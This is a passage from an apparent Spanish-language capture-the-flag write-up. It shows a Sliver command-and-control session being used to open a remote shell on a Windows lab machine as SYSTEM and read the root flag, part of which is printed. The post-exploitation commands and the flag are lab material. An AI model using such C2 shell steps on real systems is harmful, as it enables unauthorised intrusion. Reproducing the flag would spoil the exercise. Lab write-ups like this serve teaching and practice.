 Seleccionamos esta sesión.
```console
[server] sliver (LUCKY_SPEND) > use 9b99e9cc

[*] Active session LUCKY_SPEND (9b99e9cc-2e72-4ddf-a05d-7314b47e7721)
```

Y conseguimos una consola interactiva.
```console
[server] sliver (LUCKY_SPEND) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 656

PS C:\Windows\system32> whoami
whoami
nt authority\system

```

Podemos leer la flag de `root`
```console
PS C:\Users\Administrator\Desktop> type root.txt
type root.txt
dea00efd37ab...
```

¡Y ya estaría!

Happy Hacking! 🚀